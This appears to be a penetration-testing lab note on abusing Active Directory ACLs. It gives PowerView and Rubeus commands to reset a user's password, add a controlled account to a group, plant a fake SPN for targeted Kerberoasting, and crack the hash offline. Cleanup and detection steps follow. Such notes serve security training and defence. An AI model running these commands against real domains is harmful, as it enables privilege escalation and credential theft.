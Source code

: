 ## Abusing ACLs

1. Use the wley user to change the password for the damundsen user
2. Authenticate as the damundsen user and leverage GenericWrite rights to add a user that we control to the Help Desk Level 1 group
3. Take advantage of nested group membership in the Information Technology group and leverage GenericAll rights to take control of the adunn user

**Creating a PSCredential Object
```
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

**Creating a SecureString Object
```
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

**Changing the User's Password
```
cd C:\Tools\
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

**Creating a SecureString Object using damundsen
```
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```

**Adding damundsen to the Help Desk Level 1 Group
```
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

**Confirming damundsen was Added to the Group
```
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```


## Targeted Kerberoast

**Creating a Fake SPN
```
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

**Kerberoasting with Rubeus
```
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
- Crack password offline with Hashcat


## Cleanup
1. Remove the fake SPN we created on the adunn user
2. Removes the damundsen user from the Help Desk Level 1 group
3. Set the password for the damundsen user back to its orignial value or have our client set it/alert the user

**Removing the Fake SPN from adunn's Account
```
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```

**Removing damundsen from the Help Desk Level 1 Group
```
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

**Confirming damundsen was Removed from the Group
```
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```


## Detection and Remediation
1. Auditing for and removing dangerous ACLs
2. Monitor group membership
3. Audit and monitor for ACL changes
- Event ID 5136 > Details > Security Descriptor Definition Language (SDDL)
- This is not readable, so use ConvertFrom-SddlString cmdlet

**Converting the SDDL String into a Readable Format
```
ConvertFrom-SddlString "O:BAG:BAD:AI<SNIP>(D;;DC;;;WD)" |select -ExpandProperty DiscretionaryAcl
```

